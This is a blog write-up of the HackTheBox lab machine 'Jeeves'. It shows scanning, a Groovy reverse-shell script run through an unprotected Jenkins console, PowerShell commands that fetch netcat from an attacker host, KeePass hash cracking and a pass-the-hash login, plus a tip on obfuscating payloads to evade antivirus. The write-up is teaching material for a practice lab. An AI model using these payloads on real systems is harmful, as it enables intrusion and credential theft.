 ```yaml
---
layout: single
title: "HackTheBox - Jeeves writeup"
header:
  overlay_image: /assets/img/thumbnails/thmbn-01.jpg
  caption: "[__HackTheBox__](https://www.hackthebox.eu/)"
excerpt: "Hack the planet!"
related: true
comments: true
---
```



# Introduction
Jeeves is a medium rated machine on HackTheBox platform which got retired last weekend (18.05.2018). Core of this machine revolves around pwnage of Jenkins. Let's get to it.

<center><img src="/assets/img/blog/htb-jeeves/htb-jeeves-00.png"></center>

***

# Scanning and Enumeration 
As usual, start out with **Nmap**:
```console
root@EdgeOfNight:~# nmap -sV -T4 -sS 10.10.10.63

Starting Nmap 7.60 ( https://nmap.org ) at 2018-05-22 18:24 BST
Nmap scan report for 10.10.10.63
Host is up (0.062s latency).
Not shown: 996 filtered ports
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.28 seconds
```

For the sake of keeping this blogpost short, I'll ignore enumeration of port 135 and 445 as they most likely aren't part of the overall solution. 

## HTTP port 80
Upon visiting the HTTP server at port 80 we are present with somewhat custom made search engine.

<img src="/assets/img/blog/htb-jeeves/htb-jeeves-01.png">

Afterwards, I run **Gobuster** to search for any hidden content or directories, but find none. Not much one can do from here on... A dead end!

## HTTP Port 50000

<img src="/assets/img/blog/htb-jeeves/htb-jeeves-02.png">

Same approach using **Gobuster**.
```console
root@EdgeOfNight:~# gobuster -e -u http://10.10.10.63:50000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 25 

Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.63:50000/
[+] Threads      : 25
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
[+] Expanded     : true
=====================================================
http://10.10.10.63:50000/askjeeves (Status: 302)
```
Fortunately for us, `/askjeeves/` exposes an unprotected Jenkins install. 

<img src="/assets/img/blog/htb-jeeves/htb-jeeves-03.png">

This allows us to either upload a malicious .exe file through job creation or run custom commands in the Jenkins console. I chose the latter. If you however decide to stick with job creation, make sure that the files you upload are well obfuscated so that the antivirus doesn't delete them ;). I'd definitely recommend [VeilFramework](https://github.com/Veil-Framework/Veil) for this purpose.

***

# Exploitation
Navigate to the script console (*Manage Jenkins -> Script Console*) - `http://10.10.10.63:50000/askjeeves/script`. 

<img src="/assets/img/blog/htb-jeeves/htb-jeeves-03,5.png">

This allows us to run arbitrary GroovyScript (similar to java) commands. Doing a bit of research, I find a GroovyScript reverse shell on [GitHub](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76).

{% highlight java %}
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
{% endhighlight %}

If we rewrite the port and the host, we should be able to get a nice netcat reverse shell. 

<img src="/assets/img/blog/htb-jeeves/htb-jeeves-04.png">

Awesome! User's hash is located at `C:\Users\kohsuke\Desktop`. Go and get it! 

***

# Privilege escalation
Unfortunately, we still need to escalate our privileges in order to capture all the flags. There are two main methods of doing so - cracking of .kdbx file and token impersonation (*rotten potato method*). Below, the first method will be described. 

## Keepas password manager
Doing a bit of roaming around the file system, I find an interesting .kdbx file. This file extension is associated with *Keepass password manager*. The mentiond .kdbx file can be found at `C:\Users\kohsuke\Documents\CEH.kdbx`. To transfer this file into our computer I first put **netcat** binary (in Kali: `/usr/share/windows-binaries/nc.exe`) onto the Windows system via Powershell:

{% highlight powershell %}
# Run inside the reverse shell: 
powershell -c '(new-object System.Net.WebClient).DownloadFile("http://IP/nc.exe", "C:\Windows\Temp\nc.exe")'
# OR
powershell -c 'Invoke-WebRequest "http://IP/nc.exe" -OutFile "C:\Windows\Temp\nc.exe"' 
{% endhighlight %}

<div class="notice--info">
  <h4>Note:</h4>
  <p> Don't forget to start a web server before you actually try to download a file.</p>
</div>

Thanks to **netcat**, we are able to transfer the .kdbx file into our filesystem. We can then proceed to generate a hash with **keepass2john**.
```console
root@EdgeOfNight:/tmp# keepass2john CEH.kdbx 
CEH:$keepass$*2*6000*222*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
``` 

This hash can be then cracked with usual programs like **Hashcat** or **JohnTheRipper**.
```console
root@EdgeOfNight:/tmp# john --format="keepass" --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64 OpenSSL])
Press 'q' or Ctrl-C to abort, almost any other key for status
moonshine1       (CEH)
1g 0:00:01:12 DONE (2018-05-22 19:56) 0.01371g/s 754.2p/s 754.2c/s 754.2C/s moonshine1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

The master password of the Keepass manager is `moonshine1`! By installing Keepass2 (*apt-get install keepass2*), we can view the .kdbx file and see all saved up passwords.
The preview looks like this:

<img src="/assets/img/blog/htb-jeeves/htb-jeeves-05.png">

None of these passwords are actually usable apart from *Backup stuff*.  

<img src="/assets/img/blog/htb-jeeves/htb-jeeves-06.png">

Does this look familiar - `aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00`? Yup! It is an NTLM hash which we can use for pass the hash attack! Both Metasploit's **psexec** module or **pth-winexe** can be used. 
```console
root@EdgeOfNight:~# pth-winexe -U ./Administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 //10.10.10.63 cmd.exe
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
jeeves\administrator

```

Normally I'd end the blog here as we gained root / administrator privileges. However, retrieving the root flag is a bit tricky. This is the part where most people get frustrated, because normal directory listing doesn't yield any useful results. The flag itself is hidden inside an alternate data stream. Alternate data streams can be listed with `dir /r`:

<img src="/assets/img/blog/htb-jeeves/htb-jeeves-07.png">

and viewed with `more < hm.txt:root.txt`:

<img src="/assets/img/blog/htb-jeeves/htb-jeeves-08.png">

***

# Conclusion
Congratulations! At this point there's nothing left - both flags have been retrieved. If you want to view alternative methods which I didn't show (such as rotten potato), I'd highly recommend Ippsec's [video](https://www.youtube.com/watch?v=EKGBskG8APc). His content is great and I often learn many new methods from his tutorials :-) ! Thanks for reading.

~V3
